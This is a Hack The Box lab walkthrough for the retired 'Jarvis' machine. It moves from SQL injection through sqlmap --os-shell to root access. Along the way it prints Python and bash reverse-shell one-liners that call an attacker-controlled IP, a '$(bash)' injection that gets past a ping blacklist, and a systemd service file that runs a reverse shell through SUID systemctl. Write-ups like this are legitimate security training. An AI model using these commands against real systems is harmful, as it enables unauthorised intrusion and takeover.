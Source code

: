# Hack The Box - Jarvis walkthrough
![](/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box.  
It is a Linux based machine.  
This machine has a static IP address <10.10.10.143>   
It was a nice bit easy machine.  
  
You have to found **user.txt** and **root.txt** flag.   

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine.  

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this  
![](/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php**  

![](/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell`

![](/photos/sqlmap_1.png)

And we got the shell

![](/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener  

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**We got the shell but it is not the proper user**

![](/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt**  
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py**  
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file  
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted.  

So we simply run 
* ` sudo -u pepper /var/www/Admin-Utilities/simpler.py -p `
with **-p** which is ping option

Then it pop up with **Enter an IP** option  
There use the non-blacklisted symbol with bash command
* ` $(bash) `

![](/photos/pepper_shell.png)

**We got the pepper user**  

But we are not able to run any command so we try to get a reverse shell from **pepper** user  
and also start a listener

So I simply run a bash reverse shell command 
* `bash -i >& /dev/tcp/<your ip>/1234 0>&1`

And we got the new **pepper** user shell
Then we enumerate ffor **user.txt**
* `ls -al`
* `cat user.txt`

![](/photos/user.png)

Now we have to read our **root.txt** flag  
So for that we have to escalate our privelage to **root**.

So firstly we check for **SUID bit SET**
* `find / -perm -u=s -type f 2>/dev/null`

![](/photos/suid.png)

Here we find **/bin/systemctl** service running with **root** permission  

* As Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager.

So we make a new service named shell.service  
	
```
[Unit]
Description=hacking articles 
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/8888 0>&1'
[Install]
WantedBy=multi-user.target
```

Now download that service file from machine to **Jarvis** machine  
Now enable the service
* /bin/systemctl enable /home/pepper/shell.service
* /bin/systemctl start shell

![](/photos/ena.png)

Now start the listener again

![](/photos/root.png)

**We got the root.txt flag**
This is very good machine and I learn a lot of new things.

Author: Hardik Chugh
